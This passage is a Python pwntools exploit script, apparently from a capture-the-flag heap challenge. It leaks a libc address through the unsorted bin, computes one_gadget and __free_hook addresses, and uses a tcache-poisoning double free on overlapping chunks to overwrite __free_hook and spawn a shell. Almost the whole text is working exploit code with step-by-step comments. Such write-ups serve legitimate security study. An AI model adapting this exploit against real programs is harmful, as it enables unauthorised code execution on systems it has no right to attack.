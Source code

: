 ```python

# Now adding a chunk of size 0x128 gives us a chunk from the unsorted bin since the tcache bin is empty
# In this case, unsorted bin will have a 0x350 sized chunk starting at wherever chunk A is
# We first add a 0x128 sized chunk so that the libc address gets moved down into where chunk B is
# This happens because now the unsorted bin will have a chunk starting at chunk B
add(0x128) # idx 8

# Now since we have a pointer to chunk B, we can simply read the libc address that got moved down into it
libc_leak = u64(listen(1).ljust(8, '\x00'))
libc.address = libc_leak - 0x3ebca0
one_gadget = libc.address + 0x4f322
free_hook = libc.symbols['__free_hook']

log.info('main arena leak: ' + hex(libc_leak))
log.info('Libc base: ' + hex(libc.address))
log.info('one gadget: ' + hex(one_gadget))
log.info('free_hook: ' + hex(free_hook))

# Fill up the 0x128 tcache bin again
# We do this to make subsequent mallocs easier to use (i.e their indexes are easier to visualise)
# Indexes freed: 0, 2, 3, 4, 5, 6, 7
free(0)
for i in range(2, 8):
	free(i)

# Add overlapped chunk with B
# We use size 0x1d8 because we want to do the tcache poisoning attack, thus we create this new 0x1d8 tcache bin
# Otherwise there are some checks to bypass if we do an unsorted bin attack (for example)
# It's just easier to do it with the tcache bins
add(0x1d8) # idx 0, overlapped with the starting chunk B

# At this point, the two overlapped chunks are at indexes 0 and 1
# Double free them and put them into tcache bin 0x1d8
free(0)
free(1)

# Add one of them, change its fd to __free_hook
add(0x1d8) # idx 0
talk(0, p64(free_hook) + '\n')

# Two more chunks and we get a chunk on __free_hook
add(0x1d8) # 1, overlapped chunk with idx 0 again
add(0x1d8) # 2, chunk on __free_hook

# Overwrite __free_hook with one_gadget
talk(2, p64(one_gadget) + '\n')

# Trigger __free_hook which gives us shell
free(1)

p.interactive()
```
